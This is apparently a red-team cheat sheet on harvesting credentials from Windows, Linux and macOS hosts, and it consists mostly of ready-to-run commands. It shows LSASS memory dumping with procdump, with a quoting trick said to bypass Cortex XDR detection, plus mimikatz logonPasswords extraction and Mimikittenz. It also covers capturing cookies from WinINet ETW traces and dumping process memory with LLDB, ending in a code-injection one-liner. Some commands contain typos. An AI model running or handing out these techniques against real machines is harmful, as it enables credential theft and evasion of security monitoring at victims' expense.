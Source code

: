 # Credential harvesting
---
## Navigation
- **[[#Windows]]**
- **[[#Linux]]**
- **[[#MacOS]]**

---
# Windows 
 # 1- Process memory:
 ###### 1- Procdump.exe
 ```powershell
procdump.exe -accepteula -ma <PID> /temp/proc.dmp
 
#Additionally, depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):
procdump.exe -accepteula -ma “lsass.exe” out.dmp

 ```
To dump all processes:
```powershell
#make sure to install procdump from Systeinternals and have it in your path
Get-Process | % {procdump.exe -ma $_.Id }

gci *.dmp | % { strings.exe -n 17 $_.Name | Select-String "password=" | Out-File ($_.Name+".txt")}
```
> **Important Note:**
> It's recommended to dump a single process at a time for investigation because dumping all processes takes alot of time and could trigger detections especially when working with LSASS.
> 
> **Download:** https://download.sysinternals.com/files/SysinternalsSuite.zip

 ###### 2- Mimikittenz (Not working on windows 10)
 Rather than writing files to disk, Mimikittenz will read the memory of processes using the Win32 API  `ReadProcessMemory`  to search for a set of common credentials.  `Mimikittenz`  can easily be customized to search for additional regular expressions in process memory.
```powershell
Invoke-Mimikittenz
```
> **Download:** https://github.com/orlyjamie/mimikittenz

 ###### 3- mimikatz
 ```powershell
sekurlsa::minidump lsass.DMP
log lsass.txt
sekurlsa::logonPasswords
 ```
 
 # 2-Abusing logging & tracing:
 For debugging and monitoring purposes, applications and services emit logs and traces. This enables ***privileged*** users on the machine to get more insights into the inner workings of an application during runtime. Windows has a powerful tracing infrastructure called **`Event Tracing for Windows (ETW)`**
 There are tools out of the box in Windows to interact with ETW, and they allow us to start traces, collect data, and stop them, such as **`wevtutil`** and **`logman`** .
-  **`logman`** : Allows us to manage event tracing sessions.
 Run the following command to see what providers are available:
 ```powershell
 logman query providers
 ```
 
###### 1- Tracing the WinINet provider
The Windows Internet (WinINet) application programming interface (API) enables your application to interact with FTP and HTTP protocols to access Internet resources. it also can be used to inspect TLS traffic.
1. **Launch a tracing session with logman as an Administrator:**
```powershell
logman start WinInetSession -p "Microsoft-Windows- WinInet" -o WinInetTraceSession.evt -ets
```
2. **Now tracing events are now written to the provided evt file**
3. **Searching event file to get some juicy info such as cookies:**
```powershell
# The following is just an example, consider knowing the cookie header for what you are interested in..
.\strings.exe -nobanner -n 8 .\WinInetTraceSession.evt | Select-String "Set-Cookie: "
```
4- If you'd like to view the binary file in Event Viewer, you can do that too. Just launch **`eventvwr.exe`** and open the file 

You can convert the event file into a text file:
```powershell
# Converting into text file
wevtutil qe WinInetTraceSession.evt /lf:True /f:Text > WinInetTrace.log
```
> **Important Note:**
> Microsoft Edge & Internet Explorer use this provider, so in case of other browsers, you will have to know their provider or another tracing technique.

---
# Linux
### Process memory:
###### 1- Procdump
```bash
# Download procdump
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update -y
sudo apt-get install procdump

# Dump a process
procdump -p <PID>
```
> **Important Note:**
> Dumping a root process requires a root privilege.

---
# MacOS
Apple made it more difficult to debug or dump process memory, even as root. Apple introduced a feature called **`System Integrity Protection (SIP)`** that limits what even the root user can do to the operating system.
```bash
# Check if SIP is enabled
csrutil status
```
If SIP is enabled, you cannot debug or inspect
these processes easily, even when running as root.
> **Important Note:**
>  SIP only protects certain folders and binaries (by default no third-party software), and ones that have proper signatures.
>  You can find protected files in: `/System/Library/Sandbox/rootless.conf`
>  or by executing the following command:
>  `ls -lhaO /Applications/ | grep -v restricted`

But the good news is that even if SIP is enabled, you can still debug certain processes using tools such as **`Low-Level Debugger (LLDB)`**. 
After finding a running process not covered by SIP, attach the LLDB debugger to it.
```bash
lldp -p <pid>
# Attach process
(lldp) process attach --pid <pid>
# Dump process memory
(lldp) process save-core
```
> You can inject code into memory by using this example:
> `(lldb) p (void) system("whoami &> /tmp/log.txt")`

